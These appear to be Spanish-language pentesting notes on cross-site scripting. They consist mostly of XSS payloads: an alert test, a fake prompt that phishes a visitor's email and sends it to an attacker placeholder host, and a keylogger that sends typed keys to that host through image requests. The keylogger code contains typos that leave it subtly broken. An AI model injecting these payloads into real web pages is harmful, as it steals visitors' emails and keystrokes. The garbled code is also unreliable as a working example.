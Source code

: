 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 
```